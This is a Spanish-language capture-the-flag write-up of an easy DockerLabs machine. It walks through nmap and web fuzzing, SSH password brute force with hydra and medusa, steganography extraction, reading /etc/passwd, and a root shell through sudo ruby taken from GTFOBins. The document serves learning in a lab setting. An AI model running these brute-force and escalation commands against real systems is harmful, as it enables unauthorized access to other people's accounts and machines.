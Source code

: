 
> Habilidades: Enumeración, fuerza bruta, escalada de privilegios (linux), esteganografía.


# RECONOCIMIENTO


## Nmap Scan

Realizamos el primer sondeo a la ip de la victimma para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/Nmap1Scan.png?raw=true)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumaeración a los puertos abiertos.
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ServicesScan.png?raw=true)
- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________________________________________________

## Http Service


Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extension de navegador Wappalyzer)

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/whatweb.png?raw=true)

Abrimos en navegador y vamos a dicha web, leemos y podemos ver algo interesante, una nota de `Carlota`.
Yo siempre reviso view-source de la web por si se me escapa algo interesante.
![despido](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/despidoempleado.png?raw=true)

_____________________________________________________________________________________________________________________________________________________________________

## Fuzzing



El siguiente paso será intentar descubrir posibles directorios, podemos usar cualquier herramienta de fuzzing, yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/zfuzz.png?raw=true)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/burp.png?raw=true)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intenta hacer fuerza bruta con uno de ellos. En este caso usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especifica un nombre.
- `-P`: Especifica una lista de palabras.
- `-t4`: Especifica hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![medusa](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/medusa.png?raw=true)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

__¡¡BINGO!! obtuvimos las credenciales de Carlota.__

_____________________________________________________________________________________________________________________________________________________________________
# Escalada de privilegios

Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente, para ello cambiaremos el valor de la variable `$TERM`. En este caso, nuestra shell (SSH) ya es interactiva, solo necesitaremos export TERM=xterm.

~~~ bash
/bin/bash -i
export TERM=xterm
~~~

### Enumeracion entorno

En primer lugar veremos si tenemos privilegios `sudo` mediante `sudo -l`, pero no hay suerte. Seguimos enumerando y vemos una imagen en una carpeta de Carlota.

![estego](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/estego.png?raw=true)

Vamos a comprobar si tiene información oculta. En primer lugar nos la descargamos, para ello lo vamos a hacer de dos modos diferentes, es bueno saver varias maneras de hacer las cosas ya que no siempre funcionan los mismos metodos.

~~~ bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /opt/amor
~~~
![scp](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/scp.png?raw=true)

El segundo sería crear un servidor temporal con python y descargarla desde el lado del atacante.

~~~ bash
Victima
python3 -m http.server 8080
~~~
![httpserver](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/httpserver.png?raw=true)
~~~
Atacante
wget http://172.17.0.2:8080/imagen.jpg
~~~
![wget](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/wget.png?raw=true)


## Esteganografía y escalada de privilegios

Para comprobar si tiene informacion oculta o metadatos, usaremos la herramienta steghide.

Con las opciones extract y sf estraemos los metadatos si los hubiera en un archivo.

~~~
steghide extract -sf imagen.jpg
~~~
El contenido del archivo parece estar codificado en base64.

![steg](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/stg.png)

Decodificamos con un simple comando.

~~~
cat secret.txt | base64 -d
~~~
![decode](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/decode.png?raw=true)

Probamos la contraseña para escalar a root pero no hay suerte. Revisamos el archivo /etc/passwd para ver los usuarios.
Observamos tres usuarios activos, oscar, carlota y root.

~~~
cat /etc/passwd
~~~
![users](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/users.png?raw=true)

Probamos con el usuario Oscar y efectivamente funciona.
~~~
su oscar
whoami
~~~
![changeuser](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/oscar.png?raw=true)

Los siguientes pasos consisten en enumerar al igual que con el usuario Carlota.

Tanto directorios, como permisos  de archivos, rutas. El primer paso es saber si puede ejecutar sudo con `sudo -l`.
~~~
sudo -l
~~~
![nopassword](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/nopasswd.png?raw=true)

Podemos ver que el usuario Oscar puede ejecutar /usr/bin/ruby como root sin necesidad de contraseña.
Ahora vamos a averiguar la manera. Vamos a la web gtfobins.github.io, buscamos ruby y seleccionamos sudo.
Leemos atentamente, en este camos buscamos un shell simplemente.

![ruby](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ruby.png?raw=true)
~~~
sudo ruby -e 'exec "/bin/sh"'
whoami
~~~

![root](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/root.png?raw=true)

Pues ya estaría :D



